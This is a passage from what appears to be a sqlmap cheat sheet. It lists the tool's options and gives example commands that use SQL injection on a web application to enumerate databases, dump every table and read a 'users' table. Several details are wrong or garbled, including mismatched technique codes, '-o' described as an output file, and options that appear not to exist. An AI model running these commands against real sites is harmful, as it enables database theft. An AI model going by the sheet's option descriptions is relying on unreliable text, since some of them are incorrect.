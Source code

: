         --technique=QT: Error-based
    
        --technique=EU: Error-based union query

### Enumeration options:
    
        --tables: List all database tables
    
        --columns: List all columns from specified database tables
    
        --dbs: List all databases
    
        --hostname: Display hostname of DBMS

### Database fingerprinting:
    
        --fingerprint: Fingerprint the DBMS

### Dumping options:
    
        --dump: Dump all data from a specific database table 
    
        --dump-all: Dump all databases

### Miscellaneous options:
    
        --flush-session: Flush session information
    
        --answers: Specify yes/no for questions
    
        --update: Update sqlmap


### Sqlmap Commands

---
<br><br>
Connect to a website where the URL points to a vulnerable web application which is backed by a MySQL server. It then retrieves the database names from the 'user' and 'pass' parameters given in the command.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --data="user=foo;pass=bar" --dbs 

---
<br><br>
Retrieve the tables present in the database specified in the URL given in the command, and then to dump the content of all the tables into the 'test' output file.

    sqlmap -u http://www.example.com/db.php?id=1 --tables -o test --dump

---
<br><br>
Crawl 2 levels of the website specified in the URL given in the command, looking for the parameter 'wp-api-token', and then retrieve the content of the 'users' table.

    sqlmap -u http://www.example.com/db.php?id=1 --crawl=2 --randomize-string='?wp-api-token' --table 'users'

---